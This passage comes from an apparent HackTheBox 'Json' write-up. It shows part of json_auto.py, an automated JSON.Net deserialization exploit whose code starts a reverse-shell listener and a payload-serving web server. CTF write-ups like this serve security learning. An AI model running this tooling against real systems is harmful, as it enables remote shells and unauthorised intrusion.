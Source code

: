 ```py
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-17-HackTheBox-Json/2021-09-17-HackTheBox-Json%2009:39:32.png)

json_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto JSON.Net Deserealizaiton Exploit - JSON HackTheBox
# Date: 19/09/21

import argparse
import requests
import sys
import base64
import os
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread


'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setup the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
```